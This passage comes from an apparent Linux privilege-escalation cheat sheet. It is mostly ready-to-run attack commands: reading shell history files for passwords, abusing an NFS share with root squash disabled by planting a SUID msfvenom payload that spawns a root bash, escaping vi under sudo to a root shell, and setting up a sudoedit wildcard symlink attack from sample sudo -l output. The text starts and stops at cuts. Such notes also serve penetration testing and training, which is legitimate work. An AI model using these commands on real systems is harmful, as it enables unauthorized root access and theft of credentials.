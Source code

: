 ```
/usr/local/bin/suid-env2
```

#### Searching history files for passwords

```
cat ~/.*history | less
```

#### Exploiting root squash in NFS shares

This requires root squash to be disabled. You can find that by displaying the configuration of the nfs share

```
cat /etc/exports
```

Next step is to mount the share in your attacking machine. We assume that the target machine nfs share is at /tmp.

```
mkdir /tmp/nfs  
mount -o rw,vers=2 ip:/tmp /tmp/nfs
```

Generating payload to be copied into the NFS share

```
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```

Give it permissions

```
chmod +xs /tmp/nfs/shell.elf
```

Now run the shell from the remote machine NFS share

```
/tmp/shell.elf
```

#### Exploiting vi text editor

If you run \[sudo -l] and you find vi, then you can escape vim to escalate to root privileges

```
sudo vi -c ':!/bin/sh' /dev/null
```

#### Using the symlinks method

This scenario works if you can manage to make text editing programs such as \[nano] \[vim] or \[sudoedit] run as another use such as \[root] and wild cards are used . Normally you can check on that by running \[sudo -l]. A typical scenario is when you get an output similar to the below

```
Matching Defaults entries for werkzeug on joker: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, sudoedit_follow, !sudoedit_checkdir 

User werkzeug may run the following commands on corporate: 
(test-account) NOPASSWD: sudoedit /var/www/*/*/index.html
```
